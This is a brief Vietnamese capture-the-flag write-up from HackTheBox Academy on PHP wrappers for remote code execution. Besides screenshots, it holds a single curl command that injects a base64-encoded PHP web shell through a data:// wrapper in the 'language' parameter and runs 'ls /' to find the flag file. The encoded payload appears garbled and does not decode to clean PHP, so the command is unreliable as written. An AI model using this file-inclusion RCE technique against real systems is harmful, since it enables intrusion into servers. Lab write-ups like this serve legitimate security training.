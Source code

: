 # HackTheBox_academy

## **Bài này ta làm quen với PHP wrappers để lấy RCE**

![image](https://github.com/user-attachments/assets/5a677965-ba33-4a7d-91f5-c3ea1c648c19)

>curl -s "http://83.136.251.68:31806/index.php?language=data://text/plain;base64,PD9waHA8c2lzdGVtKCRfR0VUWVJbYWJ0aXJkXSk7ID8%3D&cmd=ls%20/"


![Screenshot 2025-04-18 221659](https://github.com/user-attachments/assets/cdbed38b-0321-48f0-9a4e-1cba00020db4)

![Screenshot 2025-04-18 221851](https://github.com/user-attachments/assets/d71d3a31-f92c-4333-bc9f-affe40c100d5)

Đọc file .txt ta được flag 

![Screenshot 2025-04-18 221938](https://github.com/user-attachments/assets/1922a5fd-c1f8-4db4-9d6e-9d9698ebf59c)





















